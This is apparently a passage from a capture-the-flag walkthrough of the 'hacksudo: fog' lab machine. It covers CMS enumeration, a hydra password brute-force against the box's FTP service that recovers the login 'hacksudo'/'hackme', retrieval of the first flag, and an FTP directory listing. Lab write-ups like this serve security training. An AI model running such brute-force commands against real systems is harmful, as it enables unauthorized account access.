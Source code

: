 dict.txt is likely a relevant wordlist for the cms let's `wget` it and use it later.

in the comments of the index1.html page:
{% highlight html %}
<!-- caesar-cipher ==? https://github.com/hacksudo/SoundStegno --!>
<!-- box author : hacksudo  --!>
{% endhighlight %}
that could be a clue as to the file exension types to look for with gobuster.

The CMS in use is CMS Made Simple which I'm not too familiar with but browsing around
the index page gives us the user `hacksudo` from the news module.

before we get into exploiting any vulnerabilities with the CMS, lets take a look at
the other services running on the machine:

#### FTP
why not try the `dict.txt` with hydra with the username `hacksudo` 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/hacksudo-fog]
└─$ hydra -l hacksudo -P dict.txt ftp://192.168.56.213
-- SNIP --
[21][ftp] host: 192.168.56.213   login: hacksudo   password: hackme
{% endhighlight %}
after logging in as the user we get the first flag:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/hacksudo-fog]
└─$ cat flag1.txt 
great you done step 1
 ___ ___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  
 / __/ _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \ 
| (_| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | |
 \___\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|
                 |___/                                               

www.hacksudo.com
{% endhighlight %}

Poking around in the directories:
{% highlight terminal %}
drwxr-xr-x    2 0          0                4096 May  6 13:57 hacksudo_ISRO_bak
226-Options: -l 
226 2 matches total
ftp> cd hacksudo_ISRO_bak
250 OK. Current directory is /hacksudo_ISRO_bak
ftp> ls
200 PORT command successful
150 Connecting to port 39979
-rw-r--r--    1 0          0                  63 May  5 11:07 authors.txt
-rw-r--r--    1 0          0                   0 May  6 11:36 installfog
-rw-r--r--    1 0          0             1573833 May  6 19:24 secr3tSteg.zip
{% endhighlight %}
